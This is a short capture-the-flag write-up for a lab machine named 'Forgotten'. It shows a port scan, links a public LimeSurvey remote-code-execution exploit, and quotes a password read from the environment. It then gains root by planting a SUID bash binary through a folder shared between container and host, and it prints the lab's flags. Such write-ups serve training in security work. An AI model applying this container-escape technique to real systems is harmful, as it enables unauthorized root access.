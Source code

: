 ```yaml
---
title: "Forgotten"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#Docker
Scan : 
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4ed7eb69ce06654281701b631b1ce234 (ECDSA)
|_  256 c1c607cff025ddde5f9c3f71f158bd8d (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
```

- Setup a mysql server  with docker compose try to avoid the user root , then finish the installation and follow this github to get a shell : https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/blob/main/exploit.py

- We exec `env` and get : pass --> 5W5HN4K4GCXf9E

User: VL{426b3b0a5425049b64219e9aeff3aa48}

- We enumerate the docker with : https://github.com/stealthcopter/deepce
and find a shared folder between the host and the docker  so we upload a /bin/bash
 with these perm : 
 
```sh
chmod u+s run
chmod +x run
```

- We can then connect with ssh exec the bash file to get the root :
```sh
./run -p # to keep the privileges
```

Root: VL{d75a070fbff631e40b21c99aea5d0a1a}